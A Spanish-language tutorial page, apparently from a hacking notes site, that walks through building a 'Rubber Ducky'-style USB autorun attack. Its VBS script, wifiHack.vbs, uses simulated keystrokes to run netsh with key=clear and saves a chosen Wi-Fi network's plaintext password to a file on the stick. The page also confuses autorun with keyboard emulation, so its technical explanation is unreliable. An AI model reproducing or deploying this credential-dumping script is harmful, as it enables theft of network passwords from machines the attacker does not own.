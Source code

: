 ```yaml
---
icon: scroll-old
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# USB AutoRun

Si queremos emular el comportamiento de un USB `Rubber Ducky`, que basicamente cuando insertemos el USB en algun PC se ejecute el script que nosotros hayamos programado de forma automatica, esto se consigue haciendo creer al sistema operativo que se esta conectando un teclado y con el script enviar tecla por tecla lo que se quiere escribir o hacer en el S.O. como si fuera un teclado.

Lo que primero tendremos que hacer sera instalar el siguiente programa llamado `AutoRun Creator`:

URL = [Download AutoRun Creator](https://usb-autorun-creator.softonic.com)

Una vez que hayamos descargado el ejecutable llamado `usbac_setup_smof.exe`, solo tendremos que seguir los pasos de instalacion de forma normal, cuando se haya instalado tendremos que buscar en `windows` lo siguiente:

```
USB AutoRun Creator - Editor
```

Ejecutamos esa aplicacion para que se nos habra el programa para crear el USB `AutoRun`, pero antes de seleccionar las opciones, crearemos un script basico para dumpear la informacion de la `red wifi` seleccionada + la contraseña en texto plano de forma automatica:

## <mark style="color:purple;">Crear Script VBS</mark>

> wifiHack.vbs

```vbs
Set objShell = CreateObject("WScript.Shell")
Set objFSO = CreateObject("Scripting.FileSystemObject")

' 👉 Nombre de la red Wi-Fi y archivo de salida
Dim wifiName
wifiName = "<WIFI_NAME>"
Dim notepadFileName
notepadFileName = "dead.txt"

' 👉 Verifica permisos de administrador
If Not objShell.Run("cmd.exe /c net session >nul 2>&1", 0, True) = 0 Then
    MsgBox "Por favor, ejecuta este script con permisos de administrador.", vbCritical, "Error de permisos"
    WScript.Quit
End If

' 👉 Ruta donde se guardará el archivo (D:\dead.txt)
Dim outputFilePath
outputFilePath = "<LETRA_DE_LA_UNIDAD>:\" & notepadFileName

' 👉 Crear el objeto para enviar teclas
Set x = CreateObject("WScript.Shell")

' 👉 Abrir la ventana de comandos (cmd)
x.SendKeys "^{ESC}"  ' Abre el menú de inicio
WScript.Sleep(1000)

x.SendKeys "cmd"  ' Escribe 'cmd' para buscar el símbolo del sistema
WScript.Sleep(1000)

x.SendKeys "{ENTER}"  ' Ejecuta el comando
WScript.Sleep(1000)

' 👉 Construir el comando para obtener información de la red
x.SendKeys "netsh wlan show profiles """ & wifiName & """ key=clear > """ & outputFilePath & """"
WScript.Sleep(1000)

' 👉 Ejecutar el comando (simula presionar Enter)
x.SendKeys "{ENTER}"
WScript.Sleep(2000)

' 👉 Salir de la ventana de comandos (cmd)
x.SendKeys "exit"
WScript.Sleep(500)
x.SendKeys "{ENTER}"
WScript.Sleep(1000)

' 👉 Verifica si el archivo de salida se ha creado en D:\
If objFSO.FileExists(outputFilePath) Then
    ' 👉 Abre el archivo en Notepad
    objShell.Run "notepad.exe """ & outputFilePath & """", 1, False
Else
    MsgBox "No se pudo generar el archivo: " & outputFilePath, vbCritical, "Error"
End If
```

Lo unico que tendremos que cambiar sera la parte de `<WIFI_NAME>` donde tendremos que sustituirlo por el nombre del `wifi` que queramos sacar info y en concreto la contraseña, despues tambien tendremos que cambiar la parte donde pone `<LETRA_DE_LA_UNIDAD>` por la letra de la unidad del USB que es donde se depositara el archivo `dead.txt` donde estara toda la informacion de la `red wifi` con su contraseña.

> EJEMPLO:

```
"<LETRA_DE_LA_UNIDAD>" = "D:\"

"<WIFI_NAME>" = "wifitest"
```

Una vez echo esto lo guardaremos en el USB y por si acaso crearemos el archivo `dead.txt` en el USB tambien.

## <mark style="color:purple;">Crear USB AutoRun</mark>

Llendo donde estabamos en la interfaz del `USB AutoRun Creator` de la aplicacion, tendremos que darle a `Select` en la primera opcion:

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Y en este seleccionaremos el archivo `wifiHack.vbs` que esta en el USB.

Despues en la segunda opcion seleccionaremos `Browser`:

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Y seleccionaremos la letra de la unidad del USB, seguidamente le daremos a la opcion `USB Drive`:

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Y le daremos a `OK`.

Una vez configurado todo solo tendremos que darle al boton llamado `Create` y esto nos creara todo para que el USB inicie de forma automatica el el script que seleccionamos y que el S.O. se piense que el USB es un teclado, para que asi se ejecute el script, una vez que se termine de ejecutar el script, veremos que la informacion del `wifi` y la contraseña estara en ese TXT.

Ya no solo podremos ejecutar ese script, si no que podremos programar otros scripts para que hagan lo que queramos.

Solo tendremos que sacar el USB y volverlo a insertar para que se ejecute el script de forma automatica.
